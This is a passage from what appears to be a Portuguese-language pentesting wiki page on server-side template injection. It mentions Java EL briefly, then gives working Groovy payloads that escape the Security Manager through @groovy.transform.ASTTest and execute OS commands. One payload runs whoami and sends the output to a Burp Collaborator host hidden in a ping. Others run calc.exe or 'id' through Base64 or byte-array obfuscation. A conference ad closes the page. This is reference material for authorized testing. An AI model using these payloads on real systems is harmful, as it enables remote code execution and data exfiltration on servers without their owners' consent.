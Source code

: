 EL fornece um mecanismo importante para permitir que a camada de apresentação (páginas web) se comunique com a lógica da aplicação (managed beans). O EL é utilizado por **várias tecnologias JavaEE**, como a tecnologia JavaServer Faces, tecnologia JavaServer Pages (JSP) e Contexts and Dependency Injection for Java EE (CDI).\
Confira a seguinte página para aprender mais sobre a **exploração de interpretadores EL**:

{% content-ref url="el-expression-language.md" %}
[el-expression-language.md](el-expression-language.md)
{% endcontent-ref %}

### Groovy (Java)

Esta forma de contornar o Security Manager foi retirada deste [**relatório**](https://security.humanativaspa.it/groovy-template-engine-exploitation-notes-from-a-real-case-scenario/).
```java
//Basic Payload
import groovy.*;
@groovy.transform.ASTTest(value={
cmd = "ping cq6qwx76mos92gp9eo7746dmgdm5au.burpcollaborator.net "
assert java.lang.Runtime.getRuntime().exec(cmd.split(" "))
})
def x

//Payload to get output
import groovy.*;
@groovy.transform.ASTTest(value={
cmd = "whoami";
out = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmd.split(" ")).getInputStream()).useDelimiter("\\A").next()
cmd2 = "ping " + out.replaceAll("[^a-zA-Z0-9]","") + ".cq6qwx76mos92gp9eo7746dmgdm5au.burpcollaborator.net";
java.lang.Runtime.getRuntime().exec(cmd2.split(" "))
})
def x

//Other payloads
new groovy.lang.GroovyClassLoader().parseClass("@groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec(\"calc.exe\")})def x")
this.evaluate(new String(java.util.Base64.getDecoder().decode("QGdyb292eS50cmFuc2Zvcm0uQVNUVGVzdCh2YWx1ZT17YXNzZXJ0IGphdmEubGFuZy5SdW50aW1lLmdldFJ1bnRpbWUoKS5leGVjKCJpZCIpfSlkZWYgeA==")))
this.evaluate(new String(new byte[]{64, 103, 114, 111, 111, 118, 121, 46, 116, 114, 97, 110, 115, 102, 111, 114, 109, 46, 65, 83, 84, 84, 101, 115, 116, 40, 118, 97, 108, 117, 101, 61, 123, 97, 115, 115, 101, 114, 116, 32, 106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101, 46, 103, 101, 116, 82,117, 110, 116, 105, 109, 101, 40, 41, 46, 101, 120, 101, 99, 40, 34, 105, 100, 34, 41, 125, 41, 100, 101, 102, 32, 120}))
```
<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) é o evento de cibersegurança mais relevante na **Espanha** e um dos mais importantes na **Europa**. Com **a missão de promover o conhecimento técnico**, este congresso é um ponto de encontro efervescente para profissionais de tecnologia e cibersegurança em todas as disciplinas.
